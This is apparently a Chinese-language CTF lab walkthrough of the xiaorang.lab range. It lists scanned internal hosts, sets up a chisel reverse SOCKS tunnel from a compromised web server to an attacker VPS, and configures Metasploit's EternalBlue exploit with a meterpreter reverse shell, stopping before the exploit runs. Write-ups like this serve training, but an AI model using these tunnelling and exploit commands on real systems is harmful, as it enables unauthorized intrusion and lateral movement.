 ## Net 172.22.15.26/24

- 172.22.15.13
- - Windows Server 2016 Standard 14393
- - DC XR-DC01.xiaorang.lab
- 172.22.15.18
- - XR-CA.xiaorang.lab
- - IIS Windows Server
- - poc-yaml-active-directory-certsrv-detect
- 172.22.15.24
- - Windows Server 2008 R2 Enterprise 7601 Service Pack 1
- - WORKGROUP\XR-WIN08
- - MS17-010
- - HTTP - 172.22.15.24/www/sys/index.php
- 172.22.15.26
- - HTTP - title:XIAORANG.LAB
- 172.22.15.35
- - XIAORANG\XR-0687

## 入口点 建立代理枢纽

```bash title="vps"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[3] 104848
2024/07/26 14:54:16 server: Reverse tunnelling enabled
2024/07/26 14:54:16 server: Fingerprint YD3Q0ZtfOkuluprJwabcvK5nCT6F1qxLl5pFCh7OGoI=
2024/07/26 14:54:16 server: Listening on http://0.0.0.0:1337
```

```bash title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 R:0.0.0.0:10000:socks &
[1] 3364
2024/07/26 14:54:39 client: Connecting to ws://139.*.*.*:1337
2024/07/26 14:54:39 client: Connected (Latency 43.474586ms)
```

成功建立转发

```bash title="vps"
2024/07/26 14:54:39 server: session#1: tun: proxy#R:10000=>socks: Listening
```

## 172.22.15.24 MS17-010

直接使用 Metasploit 进行攻击

```bash
root@jmt-projekt:~# proxychains4 -q msfconsole -q
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.22.15.26
LHOST => 172.22.15.26
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 8888
LPORT => 8888
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 172.22.15.24
RHOST => 172.22.15.24
```
